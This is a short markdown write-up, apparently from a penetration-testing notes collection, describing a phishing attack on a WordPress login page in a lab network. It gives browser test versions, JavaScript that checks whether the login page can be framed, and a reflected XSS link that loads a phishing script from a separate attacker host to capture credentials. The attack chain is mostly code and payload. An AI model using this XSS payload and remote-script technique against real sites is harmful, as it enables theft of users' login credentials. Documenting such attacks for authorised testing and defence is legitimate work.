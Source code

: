 # [Phish] Iframe Login Page

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [check if target login page iframe-able] navigate to target application in web browser

http://192.168.5.10

2. [check if target login page iframe-able] open developer console and execute following code

```
const url = "http://192.168.5.10/wp-login.php";
const req = new XMLHttpRequest();
req.open("GET", url, false);
req.send(null);
console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
```

* **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. victim user clicks link

```
http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/phishLoginWP.js></script>
```

4. victim user authenticates

*(attacker obtains credentials)*

## Screenshots

![Image](screenshots/WordPress_-_iframe_login_-_1-1.png)
